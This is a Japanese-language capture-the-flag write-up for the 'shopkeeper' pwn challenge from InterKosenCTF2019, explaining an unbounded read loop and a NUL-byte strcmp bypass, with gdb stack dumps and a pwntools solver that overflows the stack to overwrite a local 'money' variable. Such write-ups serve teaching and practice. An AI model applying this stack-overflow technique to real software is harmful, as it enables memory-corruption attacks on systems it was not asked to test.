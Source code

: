 ```yaml
---
title: "shopkeeper - InterKosenCTF2019"
date: 2022-05-05T12:06:50+09:00
tags: ["pwn", "InterKosenCTF", "ptr-yudai's chall"]
draft: false
---
```


# 方針
`shop`関数内にある`money`という変数をStack Overflowによって書き換えて、
十分な`money`を手にして、`Hopes`を買う方法を取ります。

## 脆弱性を探す旅🐈
一つの脆弱性は、`readline`関数で無限に入力できることです。
```c
void readline(char *buf)
{
  char *ptr;

  for(ptr = buf; ; ++ptr) { // Vulnerable here 
    if (read(0, ptr, 1) == 0) break;
    if (*ptr == '\n') {
      *ptr = 0x00;
      break;
    }
  }
}
```
もう一つは、文字列比較で`strcmp`関数を使っていることです。


```c
void shop(item_t *inventory)
{
  char buf[LEN_NAME];
  item_t *p, *t;
  int money = 100;
```
また、`shop`関数の中で、`money`がローカル変数として定義されているので、
書き換えることができる場所を探します。

## `strcmp`関数は`'\0'`から比較しない
`shop`関数の中で呼ばれている`purchase`関数では、
文字列比較に、`strcmp`関数が使われていますが、
マニュアルを見ると、次のように書かれています。

```
strncmp() is designed for comparing strings rather than binary data,
characters that appear after a `\0' character are not compared.
```

この話は有名で、`'\0'`(NULL文字)のあとの文字列は比較しません。

## 変数をStack Overflowによって書き換え
ソースコードでは、`money = 100`で定義されています。
`100 = 0x64`なので、`money(100)`の部分は、`64`と表示されます。

スタックを見ると、0x7fffffffe4e0に`0x64`があります。
```bash
gef➤  x/20xg $rsp
0x7fffffffe4a0: 0x00007fffffffe4e0      0x00007fffffffe500
0x7fffffffe4b0: 0x0000007365706f48      0x00005555554009f5
0x7fffffffe4c0: 0x0000001900000000      0x0000555555401024
0x7fffffffe4d0: 0x00007fffffffe4f0      0x0000555555401041
0x7fffffffe4e0: 0x00000064ffffe4f0      0x0000000000000000 //←here
0x7fffffffe4f0: 0x00007fffffffe540      0x0000555555400e23
```

この`64`を書き換えたいので、入力からのオフセットを調べます。
またNULL文字を置くと、その先は比較されないので、BOFを起こすことが可能です。

キーボードから **NULL文字を打つ方法は`CTRL+@`** です。

```bash
gef➤  r
Starting program: /ctf/yu1hpa/InterKosenCTF2019-challenges-public/shopkeeper/distfiles/chall
* Hello, traveller.
* What would you like to buy?
 $25 - Cinnamon Bun
 $15 - Biscle
 $50 - Manly Bandanna
 $50 - Tough Glove
 $9999 - Hopes
> Hopes^@AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD

Breakpoint 1, 0x0000555555400d0f in shop ()
    （中略）
    
gef➤  x/20xg $rsp
0x7fffffffe4a0: 0x00007fffffffe4e0      0x00007fffffffe500
0x7fffffffe4b0: 0x4141007365706f48      0x4242414141414141
0x7fffffffe4c0: 0x4343424242424242      0x4444434343434343
0x7fffffffe4d0: 0x0000444444444444      0x0000555555401041
0x7fffffffe4e0: 0x00000064ffffe4f0      0x0000000000000000
0x7fffffffe4f0: 0x00007fffffffe540      0x0000555555400e23
```

`64`までのOFFSETを数えると、`46(0x2e)`です。
あとは、適当な文字列で書き換えると、
たくさんの`money`が手に入るので、`Hopes`を買うことができます。

# [Solver](https://github.com/yu1hpa/ctf-writeup/tree/master/2019/InterKosenCTF/shopkeeper)
```python
from pwn import *

file = "./chall"
e = ELF(file)
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = process(file)
io.sendlineafter("> ", b"Hopes\x00"+b"A"*0x2e+b"MONEY")
io.sendlineafter("> ", "Y")

io.interactive()
```
